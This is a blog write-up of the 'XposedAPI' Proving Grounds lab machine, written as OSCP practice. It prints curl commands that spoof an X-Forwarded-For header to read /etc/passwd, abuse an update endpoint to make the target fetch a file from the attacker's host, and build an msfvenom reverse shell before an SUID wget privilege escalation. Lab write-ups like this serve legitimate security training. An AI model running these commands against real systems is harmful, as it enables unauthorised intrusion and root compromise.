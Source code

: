 ```yaml
---
layout: writeup
title: XposedAPI - Proving Grounds
date: 2024-07-20 13:32:20 +0300
description: A Writeup of the XposedAPI Box from Proving Grounds
image: # /assets/images/Flu/Flu_1.png
fig-caption: # Add figcaption (optional)
tags: [Linux, LainKusunagi]
---
```


![XposedAPI1.png](/assets/images/XposedAPI/XposedAP1.png){: .center-aligned width="600px"}

Here's a writeup for XposedAPI, an Intermediate Proving Grounds box from the [LainKusanagi list of OSCP like machines](https://www.reddit.com/r/oscp/comments/1c8pzyz/lainkusanagi_list_of_oscp_like_machines/). While this box has been rated Intermediate by OffSec, I'll note that the community has rated it to be Hard. I get started with an nmap scan to reveal:

```
PORT      STATE SERVICE
22/tcp    open  ssh
13337/tcp open  unknown
```

So we have two open ports, one for SSH and one for presumably an API service based on the name of the box. When we visit the port in the browser, we get this page:

![XposedAPI2.png](/assets/images/XposedAPI/XposedAPI2.png){: .center-aligned width="600px"}

It seems to detail the types of API requests which are accepted by the server. We can make a GET request on `/, /version, /logs,` and `/restart` and a POST request on `/update`. We know that this page is the result of making a GET request to `/`, because it's `http://192.168.245.134:13337/`. When we do the same for `/version` in `curl` we get this response: `1.0.0b8f887f33975ead915f336f57f0657180`. Not a lot of information there, but maybe we can find an exploit or something. The result for logs says `WAF: Access Denied for this Host.` Too bad, it looks like we need a user for the POST request on `/update`. Trying a GET request for `/restart` shows this:

![XposedAPI3.png](/assets/images/XposedAPI/XposedAPI3.png){: .center-aligned width="600px"}

Using this curl request: `curl -X POST -d '{"confirm":"true"}' http://192.168.245.134:13337/restart`, gives us a response of `Restart successful` but doesn't seem to change anything else on the other endpoints. Next we try a POST request to `/update` using this curl command:

`curl -H 'Content-Type: application/json' -d '{"user":"test", "url":"192.168.45.183/test.txt"}' -X POST http://192.168.245.134:13337/update`

This returns `Invalid username`. I try a few different common options, but I figure I can't do much here until I have a username, which I can't get from logs. I try to look for an existing exploit, but searching for "Remote Service Software" or "Remote Software Management API" only returns writeups for this very lab, as does searching the given version. 

At this point I attempted to brute force looking for usernames in Burp Repeater, but I got nowhere. Then I learned we can actually spoof where the request is coming from using a header called: `X-Forwarded-For`. Because the web page says that the API should only be exposed internally, we can assume that if we tell the server it came from localhost, we might actually be able to read the `/logs` page. 

We can craft such a curl request like this: `curl -X GET -H 'X-Forwarded-For: 127.0.0.1' http://192.168.245.134:13337/logs`, but it returns: `Error! No file specified. Use file=/path/to/log/file to access log files.`

So we add the file as a parameter like this: `curl -X GET -H 'X-Forwarded-For: 127.0.0.1' http://192.168.245.134:13337/logs?file=/etc/passwd` and we get a response. 

![XposedAPI4.png](/assets/images/XposedAPI/XposedAPI4.png){: .center-aligned width="600px"}

At that point I take note that we have a user called `clumsyadmin` which we had been looking for before in the logs. I look around briefly for an SSH key or something like that, but I find nothing, and given that we only have two ports to work with anyway, I move back to the API. I run this curl command: `curl -X POST -H 'Content-Type: application/json' -d '{"user":"clumsyadmin", "url":"192.168.45.183/test.txt"}' http://192.168.245.134:13337/update` and get a response that says: `Update requested by clumsyadmin. Restart the software for changes to take effect.`. I restart using the previous steps, and then the test file downloads from my server. 

I generate a reverse shell using `msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.45.183 LPORT=80 -f elf -o reverse.elf`, because I already know that the target can access port 80 having downloaded the test file previously. Then I open a shell on port 80, and I restart the server. 

![XposedAPI5.png](/assets/images/XposedAPI/XposedAPI5.png){: .center-aligned width="600px"}

And we have a shell. I check what we can run with sudo (nothing cause we don't have the password) and for any SUID binaries. Immediately `wget` sticks out, so I check [GTFObins](https://gtfobins.github.io/gtfobins/wget/#suid) and I run the commands for wget:

![XposedAPI6.png](/assets/images/XposedAPI/XposedAPI6.png){: .center-aligned width="600px"}

And boom, we have root. 

Lessons learned: I did not know about the `X-Forwarded-For` header. Beyond that it was mostly practice with curl command syntax. The privesc was straightforward and took very little time. 
